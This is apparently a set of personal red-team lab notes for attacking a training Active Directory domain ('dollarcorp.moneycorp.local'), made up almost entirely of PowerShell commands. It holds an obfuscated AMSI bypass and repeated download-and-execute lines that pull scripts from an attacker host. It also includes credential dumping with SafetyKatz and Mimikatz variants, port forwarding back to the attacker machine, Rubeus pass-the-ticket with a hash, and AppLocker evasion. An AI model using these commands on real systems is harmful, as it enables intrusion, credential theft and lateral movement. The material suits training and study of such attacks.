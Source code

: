 
> [!NOTE] **NOTE**
> **REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE** (BloodHound - PowerView)
> 
> ```powershell
>  Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
>  ```
>  
>  **Also search for Unconstrained and Constrained delegation abuse**


```powershell
ls env
```

```powershell
iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

```powershell
iex(iwr 'http://172.16.100.48/PowerView.ps1' -useb)
iex(iwr 'http://172.16.100.48/Invoke-SessionHunter.ps1' -useb)
iex(iwr 'http://172.16.100.48/Find-PSRemotingLocalAdminAccess.ps1' -useb)

iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.48/PowerView.ps1'))
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.48/Find-PSRemotingLocalAdminAccess.ps1'))
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.48/Invoke-SessionHunter.ps1'))
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```

### Lateral 1 (Local Admin)
Add port forward to machine to forwards to webserver - downloading executable is bad
```powershell
iwr http://172.16.100.48/Loader.exe -OutFile C:\Users\Public\Loader.exe

echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe

$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48"
```

Download from local loopback
```powershell
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::evasive-keys exit"

$null | winrs -r:dcorp-mgmt powershell -c "iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb);iex (iwr http://172.16.100.48/amsibypass.txt -useb);iex (iwr http://172.16.100.48/Invoke-MimiEx-vault.ps1 -useb);"
```

Note down the `aes256_hmac` and the cleartext credentials 
Use Rubues on attacking machine
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

This will create a logon type 9 so the new credentials will only be used when accessing domain resources

```powershell
net use A: \\TSCLIENT\Tools

A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
cd C:\Users\Public; Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1, .\Invoke-SessionHunter.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```
### Lateral 2 (Local Admin + AppLocker)
Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy to AppLocker safe folder - can't dot source
```powershell
copy C:\Users\Public\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv\c$\'Program Files'

copy C:\Users\Public\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1

& 'C:\Program Files\Invoke-MimiEx-keys.ps1'
& 'C:\Program Files\Invoke-MimiEx-vault.ps1'
```

> **Note**: If clear text creds are found, use `runas` to open cmd 
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

```powershell
A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```